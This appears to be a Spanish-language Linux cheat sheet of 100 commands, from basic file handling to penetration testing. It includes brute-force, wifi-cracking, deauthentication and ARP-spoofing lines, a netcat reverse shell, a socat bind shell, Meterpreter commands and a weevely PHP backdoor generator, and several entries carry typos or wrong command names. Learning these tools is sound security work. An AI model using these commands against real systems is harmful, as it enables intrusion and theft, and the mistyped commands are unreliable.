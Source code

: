 # C-digo-b-sico
# 01. Código de comandos básicos para Linux:
   
1.`pwd` - Directorio actual
2. ls - Lista los archivos del directorio
3. cd - Cambia de directorio
4. mkdir <carpeta> - Crea una carpeta
5. rm <archivo> - Borra un archivo
6. rmdir -r <carpeta> - Borra una carpeta
7. cp <archivo> <destino> - Copia archivos
8. mv <archivo> <destino> - mueve/cambia de nombre archivos
9. touch <archivo> - Crea un archivo
10. cat <archivo> - Muestra el contenido de un archivo
11. nano <archivo> - Editor de archivo Nano
12. vim <archivo> - Editor de archivo Vim
13. find / -nombre <archivo> - Busca un archivo
14. grep "texto" <archivo> - Busca un texto en un archivo 
15. history - Muestra la historia de comandos

# 02. Comandos de información del sistema:

16. uname -a - Muestra información del sistema
17. whoami - Muestra el usuario actual
18. id - Muestra el ID del usuario y del grupo
19. uptime - Muestra la cantidad de tiempo del sistema está operativo
20. df -h - Muestra el uso del disco
21. du -sh <carpeta> - Muestra el tamaño de una carpeta
22. top - Muestra procesos activos
23. ps aux - Lista los procesos que se están ejecutando
24. kill <proceso> - Termina un proceso
25. htop - Gestion de procesos interactivos

# 03. Uso de comandos de gestión:

26. adduser <usuario> - Añade un nuevo usuario
27. deluser <usuario> - Elimina un usuario
28. passwd <usuario> - Cambia la contraseña
29. usermod -aG sudo <usuario> - Da acceso de superusuario
30. groups <usuario> -Muestra los grupos del usuario
31. chmod 777 <archivo> - Cambia los permisos del archivo
32. chown usuario:grupo <archivo> - Cambia el dueño del archivo

# 04. Comandos en redes:

33. ifconfig - Muestra la interfaz de la red
34. ip a - Muestra la dirección IP
35. iwconfig - Muestra la interfaz wifi
36. ping <IP> - Test de conexión IP
37. netstat -tulnp - Muestra los puertos abiertos
38. nmap <IP> - Escanea los puertos abierto del objetivo
39. traceroute <IP> - Traza una ruta a un host
40. curl <URL> - Busca datos de una URL
41. wget <URL> - Descarga un archivo
42. dig <dominio> - Obtiene infomacion DNS
43. nslookup <dominio> - Realiza una busqueda de DNS

# 05. Comandos de Hacking & Test de Penetración:

44. msfconsole - Inicia Mestasploit
45. msfvenom - Genera cargas útiles (payloads)
46. searchsploit <exploit> - Busca exploits
47. sqlmap -u <URL> --dbs - Test de SQL injection
48. hydra -l user -P pass.txt <IP> shh - SSH de fuerza bruta
49. john --wordlist=rockyou.txt hash.txt - Crackea hashes
50. airmon-ng start wlan0 - Permite modo monitorización
51. airdump-ng wlan0mon - Captura paquetes wifi
52. airplay-ng -0 10 -a <BSSID> wlan0mon - Desautentica clientes
53. aircrack-ng -w rockyou.txt -b <BSSID> <archivo_capturado> - Crackea contraseña WIFI
54. hashcat -m 2500 hash.txt rockyou.txt - Cracka hashes usando GPU
55. ettercap -T -q -i eth0 - Realiza una suplantación de ARP
56. driftnet -i eth0 - Captura imágenes del trafico de red
57. tcpdump -i eth0 - Captura paquetes de red
58. tshark -i eth0 - Analisis del trafico de red
59. nikto -h <URL> - Escanea nulnerabilidades de servidores web
60. gobuster dir -u <URL> -w /urs/share/wordlists/dirb/common.txt - Fuerza bruta de la carpeta
61. wpscan --url <URL> - Escanea vulnerabilidades en WordPress

#06. Escalada de Privilegios & Post-Explotaciones:

62. sudo -l - Muestr los privilegios de superusuario
63. sudo su - Cambia a usuario root
64. python -c 'import pty:pty.spawn("/bin/bash/")' - Habilita el shell/terminal
65. nc -lvnp <puerto> - Empieza un Netcat de escucha
66. nc <IP> <puerto> -e /bin/bash - Shell inverso
67. meterpreter> getuid - Muestra el usuario actual en Meterpreter
68. meterpreter> getsystem - Intenta escalar privilegios
69. meterpreter> upload / download <archivo> - Transfiere archivos
70. merterpreter> shell - Obterner shell/terminal del sistema
71. linux-exploit-suggester - Sugiere exploits para escalada de privilegios

# 07. Cifrado de Archivos & Datos:

72. gpg -c <archivo> - Cifra un archivo
73. gpg -d <archivo.gpg> - Descifra un archivo
74. openssl enc -aes-256-cbc -salt -in <archivo> -out <archivo.enc> Cifra usando OpenSSL
75. openssl enc -d -aes-256-cbc -salt -in <archivo.enc> -out <archivo> - Descifra el archivo

# 08. Forense & Esteganografía:

76. string <archivo> - Extrae los strigns de un archivo
77. binwalk <archivo> - Analiza binarios
78. foremost -i <imagen> - Extrae archivos de una imagen
79. exiftool <archivo> - Muestra los metadatos de un archivo
80. stegseek <archivo steg/stegfile> -Detecta datos ocultos en una imagen

09. Cracking de Contraseñas & Hashes:

81. hashid <hash> - Identifica el tipo de hash
82. hydra -L users.txt -P passwords.txt ssh://<IP> - Fuerza bruta SSH
83. john hash.txt --wordlists=rockyou.txt - Crackea hashes de contraseñas

10. Tests de Aplicaciones Web:

84. dir <URL> - Enumeracion de carpetas
85. wfuzz -c -z file,wordlists.txt --hc 404 <URL>/ FUZZ - Web fuzzing
86. xsssniper -u <URL> - Test para XSS
87. commix --url <URL> - Test de inyección de comandos
88. burpsuite - Test con Burp Suite

# Varios:

89. crunch 8 8 abcdefghijklmnopqrstuvwxyz - Genera una wordlist
90. proxychains nmap -sT -Pn <IP> - Usa proxychains con Nmap
91. tor - Abre navegador Tor
92. mitmproxy - Empieza un proxy de man-in-the-middle
93. setoolkit - Comienza una Ingenieria Social con Toolkit
94. cewl -w words.txt -d 5 <URL> - Genera una lista de palabras personalizadas
95. weevely generate password backdoor.php - Crea una backdoor en una web
96. socat TCP-LISTEN:4444,fork EXEC:/bin/bash - Une el shell
97. whois <domain> - Da información sobre el dominio
98. theHarvester -d <domain> -l 100 -b google -Recolecta información sobre email y subdominios
99. fcrackzip -u -D -p rockyou.txt <archivo.zip> - Crackea una contraseña de un archivo .zip
100. dnscan -d <dominio> - Muestra subdominios
